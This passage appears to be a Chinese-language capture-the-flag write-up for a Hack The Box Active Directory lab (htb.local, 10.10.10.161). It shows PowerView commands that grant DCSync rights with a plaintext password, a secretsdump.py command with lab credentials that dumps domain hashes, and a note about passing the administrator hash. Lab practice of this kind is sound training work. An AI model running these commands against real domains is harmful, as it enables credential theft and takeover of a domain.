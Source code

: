```bash
1. $SecPassword = ConvertTo-SecureString 'testz1@qq.com' -AsPlainText -Force
2.$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\testz1', $SecPassword)

3.Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwnt -Rights DCSync
4. 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity testz1 -Rights DCSync
```

[![](assets/1700545055-6c525dedfed33a027109df0d014bc475.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103052-d324b822-874c-1.png)

## 转储哈希

secretsdump.py svc-alfresco:s3rvice@10.10.10.161

[![](assets/1700545055-8a04cfb8b8f61c019777a202f8e19ace.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103102-d8fc9d46-874c-1.png)

使用管理员散列执行传递散列攻击并获得权限
